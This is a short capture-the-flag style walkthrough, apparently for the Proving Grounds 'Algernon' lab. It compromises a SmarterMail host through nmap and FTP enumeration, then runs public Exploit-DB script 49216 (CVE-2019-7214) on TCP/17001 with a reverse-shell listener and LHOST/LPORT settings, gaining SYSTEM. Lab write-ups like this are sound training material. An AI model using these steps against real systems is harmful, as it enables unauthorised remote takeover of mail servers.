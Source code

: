 # PG Algernon
## SmarterMail, .NET Remoting (TCP/17001)
## Nmap Scan
```
nmap -T4 -p- -A -oN scan.txt 192.168.x.x
```
## Service Enumeration
```
Looking at the nmap output, anonymous login appears to be enabled on this FTP server.
I test the login and download all the files using mget *.
```
## FTP
```
mget *
```
## SMB
```
No anonymous share enumeration, access denied.
```
## HTTP (TCP/80)
```
Looks like a default installation of Microsoft IIS web server.
I test for any files or directories using gobuster, but find nothing.
```
## HTTP (TCP/9998)
```
Looks like a web service called SmarterMail.
Check Exploit DB for any vulnerabilities matching this service name using searchsploit. 
Default credentials found using Google search do not work here.
Source code reveals a version number.
```
## .NET Remoting (TCP/17001)
```
.NET Remoting (TCP/17001)
Searching Google for information on this port, I see repeated mentions of remote code execution (RCE) coupled with SmarterMail.

    https://www.speedguide.net/port.php?port=17001
    https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-7214
    Confirm on Exploit DB: https://www.exploit-db.com/exploits/49216
```
##  Exploit
```
Using the exploit found using searchsploit I copy 49216.py to my current working directory.
Edit the exploit variables:

HOST='192.168.x.x'
PORT=17001
LHOST='192.168.x.x'
LPORT=80

Python
I then, start a TCP listener on port 80 and run the exploit.
python3 49216.py
```
##  Post-Exploitation
```
The SmarterMail service is being executed by the SYSTEM account, meaning I have fully compromised this host.
```



